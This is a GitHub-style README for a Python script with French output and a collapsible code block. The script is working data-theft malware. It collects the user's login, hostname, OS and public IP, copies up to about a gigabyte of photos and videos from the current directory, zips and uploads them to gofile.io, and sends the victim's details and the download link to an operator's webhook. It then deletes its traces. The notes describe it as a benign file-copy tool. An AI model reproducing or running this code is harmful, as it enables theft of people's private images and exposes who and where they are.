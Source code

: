 # Usage Instructions for your Python Script

## Webhook Configuration

Replace `YOUR_WBK_URL` with your own webhook URL.

<details>
<summary>Click to view the code</summary>

```python
wh00k = "YOUR_WBK_URL"
```

</details>

## Python Script

<details>
<summary>Click to view the code</summary>

```python
wh00k = "YOUR_WBK_URL"


import os
import platform
import zipfile
import requests
import json
import shutil
import socket

COLOR_RED = "\033[91m"
COLOR_GREEN = "\033[92m" 
COLOR_MAGENTA = "\033[95m"


def adresse_ip():
    response = requests.get("https://ipinfo.io/json")
    ip_data = json.loads(response.text)
    return ip_data.get('ip', 'N/A')

informations = {
        "Utilisateur": os.getlogin() if os.name == "posix" else None,
        "nom d'hôte": socket.gethostname(),
        "Système d'exploitation": platform.system(),
        "Version du système d'exploitation": platform.release(),
        "Adresse IP": adresse_ip()
}

max_fichiers = 10 
count_per_directory = 0
max_go = 0.99 
dossier_img = "images"
if not os.path.exists(dossier_img):
    os.makedirs(dossier_img) 

def taille_dossier(dossier):
    total_size = 0
    with os.scandir(dossier) as it:
        for entry in it:
            if entry.is_file():
                total_size += entry.stat().st_size
            elif entry.is_dir():
                total_size += taille_dossier(entry.path)
    return total_size / (1024 * 1024 * 1024)

def copier(directory_path):
    global count_per_directory, dossier_img
    taille_images_gb = taille_dossier(dossier_img)
    for root, dirs, files in os.walk(directory_path):
        for file in files:
            if taille_images_gb > max_go:
                print(COLOR_MAGENTA + "Images recuperées, Téléchargement.")
                return 
            if count_per_directory >= max_fichiers:

                count_per_directory = 0
                dossier_img = "images"

            if file.lower().endswith(('.jpg', '.jpeg', '.mp4', '.mov')):
                source_path = os.path.join(root, file)
                destination_path = os.path.join(dossier_img, file)

                taille_mo = os.path.getsize(source_path) / (1024 * 1024)
                if taille_mo > 60:
                    print(COLOR_RED + f"[-] Le fichier {file} dépasse la taille limite (60 Mo).")
                    continue 

                if os.path.abspath(source_path) != os.path.abspath(destination_path):
                    try:
                        shutil.copy(source_path, destination_path)
                        count_per_directory += 1
                        taille_images_gb = taille_dossier(dossier_img)
                        prcent = taille_images_gb*100
                        print(COLOR_GREEN + f"Images / videos trouvées: {prcent:.2f} %")
                    except PermissionError as e:
                        print(COLOR_RED + "[*]")
                else:
                    print(COLOR_RED + "[-]")

repertoire_actuel = os.getcwd() 
copier(repertoire_actuel)

with zipfile.ZipFile("images.zip", "w", zipfile.ZIP_DEFLATED) as zipf:
        for root, dirs, files in os.walk(dossier_img):
            for file in files:
                zipf.write(os.path.join(root, file), file)


upload_url = "https://store1.gofile.io/uploadFile"

fichier_zip = "images.zip"

with open(fichier_zip, "rb") as file:
    files = {"file": file}

    response = requests.post(upload_url, files=files)

    if response.status_code == 200:
        data = response.json()

message = {
    "embeds": [
        {
            "title": "Images trouvées sur l'appareil",
            "color": 000000000,
            "fields": [
                {"name": "Utilisateur", "value": informations["Utilisateur"], "inline": True},
                {"name": "Nom d'hôte", "value": informations["nom d'hôte"], "inline": True},
                {"name": "Système d'exploitation", "value": informations["Système d'exploitation"], "inline": True},
                {"name": "Version du système d'exploitation", "value": informations["Version du système d'exploitation"], "inline": True},
                {"name": "Adresse IP", "value": informations["Adresse IP"], "inline": True},
                {"name": "Lien du fichier ZIP", "value": data["data"]["downloadPage"], "inline": False}
            ]
        }
    ]
}
response = requests.post(wh00k, json=message)
print(COLOR_GREEN + "[++] Téléchargement terminé.") 
shutil.rmtree(dossier_img)
os.remove("images.zip") 


```

</details>

## Running the Script

1. Configure the webhook URL as shown above.
2. Run the script in your Python environment.

## Important Notes

- This script copies image and video files from the specified directory to a destination folder.
- It then creates a ZIP file from the copied images and videos.
- Finally, it uploads the ZIP file to the specified file upload service and sends a notification via the webhook.

Feel free to modify the script to suit your needs!
```

You can copy and paste this into your README.md file. When viewed on GitHub, the code sections will be collapsible.
